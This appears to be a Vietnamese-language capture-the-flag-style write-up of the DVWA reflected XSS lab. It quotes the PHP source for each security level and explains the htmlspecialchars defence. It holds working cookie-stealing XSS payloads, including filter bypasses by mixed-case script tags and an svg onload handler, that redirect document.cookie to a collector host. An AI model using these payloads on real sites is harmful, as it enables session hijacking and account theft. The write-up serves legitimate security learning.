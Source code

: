 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: XSS Reflected
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - DVWA
  - XSS
  - XSS Reflected
---
```


# __XSS Reflected__

_Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable web site, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server. Reflected XSS is also sometimes referred to as Non-Persistent or Type-I XSS (the attack is carried out through a single request / response cycle)._

---

## __Objective__

One way or another, steal the cookie of a logged in user.

## __Security Level: Low__

Source code

```php title="vulnerabilities/xss_r/source/low.php"
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 
```

### __Analysis__

Ta thấy rằng challenge này dùng phương thức GET để get `name`mình nhập vào. Hơn nữa, nó sẽ say hello với mình và hiển thị trên trang web và đặt nó vào bên trong thẻ <pre\>. Do vậy ta dễ dàng chèn thẻ <script\> vào và lấy cookie user.

![](image.png)

> Payload: `<script>document.location='http://localhost:8000/?abc='+document.cookie</script>`

---

## __Security Level: Medium__

Source code

```php title="vulnerabilities/xss_r/source/medium.php"
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?> 

```

### __Analysis__

Với challenge này, họ chặn việc thêm thẻ <script\> vào chương trình. Vì họ filter cứng thẻ <script\> nên ta có thể bypass bằng cách viết hoa/thường lộn xộn của thể <script\> để bypass challenge này.

> Payload: `<sCriPt>document.location='http://localhost:8000/?abc='+document.cookie</sCrIpT>`
 
### __Exploition__

Như đã phân tích trên, ta dùng thẻ <svg\> để thực hiện tấn công.

---

## __Security Level: High__

Source code

```php title="vulnerabilities/xss_r/source/high.php"
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?> 
```

### __Analysis__

Lần này họ cũng filter thẻ <script\> và không phân biệt chữ hoa/chữ thường khi nhập vào. Xem hình giải thích của ChatGPT bên dưới

![ChatGPT](image-1.png)

> Payload: `<svg xmlns="http://www.w3.org/2000/svg" onload="document.location='http://localhost:8000/?abc='+document.cookie"/>`

### __Exploition__

Như đã phân tích trên, ta cũng dùng thẻ <svg\> để thực hiện tấn công.

---

## __Security Level: Impossible__

Source code

```php title="vulnerabilities/xss_r/source/impossible.php"
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

### __Analysis__

Ta sẽ dùng hàm `htmlspecialchars()` để biến các kí tự đặc biệt ở đầu vào thành kí tự giả giúp không thực thi script ta truyền vào.

---

## __What we learned__

## __Some problems__

Thực chất, ta chỉ cần dùng payload `<svg xmlns="http://www.w3.org/2000/svg" onload="document.location='http://localhost:8000/?abc='+document.cookie"/>` là có thể bypass full cấp độ ở challenge này nhưng tôi muốn đề cập theo hướng mà bên dvwa họ hướng đến việc chúng ta sẽ làm. 

- Ví dụ ở cấp độ Medium: Họ sẽ hướng chúng ta đến việc filter chữ hoa/chữ thường. Vì con người mình nhìn vào thì xem là như nhau như về mặt bản chất thì mã ASCII của 2 chữ là khác nhau dẫn đến thể hiện khác nhau. Nhưng chắc chắn sẽ thực thi cùng 1 mục đích.

## __More Information__

- https://owasp.org/www-community/attacks/xss/
- https://owasp.org/www-community/xss-filter-evasion-cheatsheet
- https://en.wikipedia.org/wiki/Cross-site_scripting
- http://www.cgisecurity.com/xss-faq.html
- http://www.scriptalert1.com/

